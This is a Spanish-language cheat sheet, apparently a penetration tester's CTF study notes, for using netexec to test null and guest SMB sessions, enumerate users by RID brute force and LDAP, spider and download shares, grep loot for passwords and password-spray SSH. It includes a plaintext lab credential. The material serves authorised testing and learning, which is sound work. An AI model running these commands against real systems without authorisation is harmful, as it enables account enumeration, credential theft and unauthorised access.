 ### Guest / null session

Podemos probar si la máquina permite una sesión guest o nula:

```bash
netexec smb <IP> -u '' -p ''
netexec smb <IP> -u 'guest' -p ''
```

### Enumeración de usuarios

Netexec nos permite enumerar usuarios en algunos casos, tanto en standalone machines como en entornos corporativos:

```bash
netexec smb 10.10.11.222 -u guest -p '' --rid-brute
netexec smb 10.10.11.222 -u guest -p '' --rid-brute | awk '{print $6}' | cut -d '\' -f2 | tee userlist2.txt
```

Además si tenemos un usuario que tiene permisos, podremos listar los usuarios
con su descripción de AD:

```bash
netexec smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
netexec ldap 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

### Descargar / ver carpetas y archivos SMB de forma recursiva

Para descargar archivos y carpetas de forma recursiva:

```bash
netexec smb <IP> -u 'x' -p 'y' --shares -M spider_plus -o DOWNLOAD_FLAG=True
```

Luego podríamos filtrar el resultado (buscar archivos powershell o logs):

```bash
cat /tmp/cme_spider_plus/10.10.10.248.json | jq '. | map_values(keys)' | grep -v lnk
```

O también podemos grepear en la carpeta en la que se guarde:

```bash
grep -ri 'pass' /tmp/nxc_hosted/nxc_spider_plus/<IP>/<share>
```

También podríamos usar spider sin descargar archivos:

```bash
netexec smb <IP> -u 'x' -p '' --shares --spider <carpeta> --regex .
```

### Otros protocolos

Netexec también funciona con otros protocolos como SSH:

```bash
netexec ssh <IP> -u users.txt -p pass.txt --continue-on-success
```
